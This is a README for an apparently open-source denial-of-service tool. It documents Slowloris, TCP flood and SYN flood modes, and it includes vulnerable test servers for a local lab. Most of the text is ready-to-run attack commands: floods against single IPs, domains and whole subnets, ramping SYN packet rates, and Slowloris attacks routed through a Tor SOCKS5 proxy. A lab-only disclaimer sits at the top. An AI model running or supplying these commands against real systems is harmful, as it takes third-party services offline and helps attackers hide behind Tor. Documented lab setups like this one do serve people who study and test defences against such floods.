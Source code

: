 # DoS tools

Unified tool for testing **Slowloris**, **TCP Flood** and **SYN Flood** attacks in a controlled lab environment.

⚠️ **Disclaimer**: Use only in environments you fully control (labs, VMs). Attacks like these are illegal against third-party systems and can cause damage. This project is for educational and research purposes only.

---

## Modes Available

* **sniper** → attack targeting a single IP
* **domain** → attack targeting a domain (resolved via DNS)
* **pitchfork** → test across a subnet + multiple ports of your choice
* **tcpflood** → opens and maintains many TCP connections, sending payloads periodically
* **synflood** → sends raw SYN packets at configurable rates (requires root and scapy)

---

## Installation

```bash
git clone https://github.com/CLSxSH7/slowloris-tool.git
cd slowloris-tool
pip install -r requirements.txt
```

For SOCKS5 proxy support, also install:

```bash
pip install PySocks
```

For SYN flood support (Linux/WSL attacker):

```bash
pip install scapy
sudo apt install tcpdump
```

---

## Usage

### Interactive menu

If you run without parameters:

```bash
python slowloris-tool.py
```

You will see a menu to choose between modes, with prompts for each parameter.

---

### Sniper mode (single IP)

```bash
python slowloris-tool.py sniper 192.168.0.10 -p 80 -s 200 --https -ua --sleeptime 10
```

With SOCKS5 proxy (e.g., Tor):

```bash
python slowloris-tool.py sniper 192.168.0.10 -p 80 --socks5 127.0.0.1:9050
```

---

### Domain mode

```bash
python slowloris-tool.py domain example.com -p 443 --https -s 200 -ua
```

With SOCKS5 proxy:

```bash
python slowloris-tool.py domain example.com -p 443 --https --socks5 127.0.0.1:9050
```

---

### Pitchfork mode (Subnet/Ports)

```bash
python slowloris-tool.py pitchfork 192.168.0.0/24 -P 80,8080,443 -s 200 -t 50 -d 120
```

> ⚠️ In this mode, SOCKS5 proxy is not supported (direct execution only).

---

### TCP Flood mode (interactive)

Prompts and meaning:

```
Target host: 127.0.0.1
Port [80]: 
Initial sockets [10]:                   # number of initial TCP connections
Add sockets per step [10]:              # how many new connections per step
Max sockets [200]:                      # max simultaneous connections
Seconds per step [10]:                  # duration of each ramp step
Payload bytes per send [256]:           # bytes sent per socket
Send interval per socket (s) [1.0]:     # interval between sends
Latency threshold to stop (s) [1.0]:    # monitor stop condition
Duration: blank = run until Ctrl+C
```

Example one-liner:

```bash
python -m slowloris_tool.cli tcpflood 127.0.0.1 -p 8080 --start 5 --step 5 --max 50 --step-duration 6 --payload-size 256 --send-interval 0.5 --impact-latency 1.0
```

---

### SYN Flood mode (interactive)

Prompts and meaning:

```
Target host: 127.0.0.1
Port [80]: 
Initial pps [50]:               # starting packets per second
Increase pps per step [50]:     # increase per step
Max pps [1000]:                 # max packets per second
Seconds per step [10]:          # duration of each ramp step
Latency threshold to stop (s) [1.0]: 
Duration: blank = run until Ctrl+C
```

Example one-liner (Linux/WSL attacker, needs sudo):

```bash
sudo PYTHONPATH="$(pwd)/src" venv/bin/python -m slowloris_tool.cli synflood <IP> -p 8080 --start 200 --step 200 --max 1200 --step-duration 6
```

---

## Vulnerable servers for testing

### Slowloris test server

A simple server vulnerable to **Slowloris** (headers read slowly).

```bash
python vulnerable_server.py --host 0.0.0.0 --port 8080 --max-workers 5
```

### TCP/SYN flood test server

Variant server that holds open connections to demonstrate **TCP flood** and **SYN flood**.

```bash
python vulnerable_server_tcp_syn.py --host 0.0.0.0 --port 8080 --max-workers 5
```

---

## Expected behaviors of vulnerable servers

* **Slowloris**: many sockets remain waiting for headers, consuming workers → new clients blocked.
* **TCP flood**: many `ESTABLISHED` connections from attacker → server threads/resources exhausted.
* **SYN flood**: many SYN packets in backlog, new connections delayed or dropped; `curl` fails with timeout or invalid protocol.

---

## Step-by-step: running TCP flood in local lab

1. Start vulnerable server:

   ```powershell
   python vulnerable_server_tcp_syn.py --host 0.0.0.0 --port 8080 --max-workers 5
   ```

2. On attacker (WSL/Linux):

   ```bash
   python -m slowloris_tool.cli tcpflood <IP> -p 8080 --start 10 --step 10 --max 200 --step-duration 6 --payload-size 256 --send-interval 0.5
   ```

3. Monitor:

   * Windows: `netstat -ano | findstr :8080` or `(Get-NetTCPConnection -LocalPort 8080).Count`
   * WSL: `tcpdump` to confirm traffic.

4. Test service: `curl -m 5 -v http://<IP>:8080/`

---

## Step-by-step: running SYN flood in local lab

1. Start vulnerable server:

   ```powershell
   python vulnerable_server.py --host 0.0.0.0 --port 8080 --max-workers 5
   ```

2. On attacker (WSL, root):

   ```bash
   sudo PYTHONPATH="$(pwd)/src" venv/bin/python -m slowloris_tool.cli synflood <IP> -p 8080 --start 200 --step 200 --max 1200 --step-duration 6
   ```

3. Monitor:

   * WSL: `tcpdump -n -i any 'tcp[tcpflags] & (tcp-syn) != 0 and dst host <IP> and dst port 8080'`
   * Windows: `curl -m 5 -v http://<IP>:8080/` may timeout or fail.

---

## Dependencies

* Python 3.9+
* `requests`
* `PySocks` (optional, SOCKS5)
* `scapy` (for SYN flood)

---

## Notes

* `--socks5` supported only in **sniper** and **domain**.
* TCP/SYN flood modes require local lab vulnerable servers to demonstrate impact.
* Always stop attacks with **Ctrl+C**. Do not run against production systems.
